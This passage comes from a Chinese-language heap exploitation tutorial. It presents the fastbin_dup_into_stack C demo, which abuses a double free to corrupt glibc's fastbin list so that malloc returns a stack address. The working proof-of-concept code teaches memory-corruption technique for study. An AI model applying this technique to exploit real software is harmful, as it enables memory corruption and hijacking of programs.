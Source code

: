 可以看到第一次 malloc 和第三次 malloc 得到的地址相同

### Malloc Return Stack

针对如下代码,利用二次 free ,修改 free chunk 结点指向下一个 free chunk 的地址,使得 malloc 返回的地址指向栈区域

```C
// gcc -std=c99 -g -o fastbin_dup_into_stack main.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
            "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
            "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```
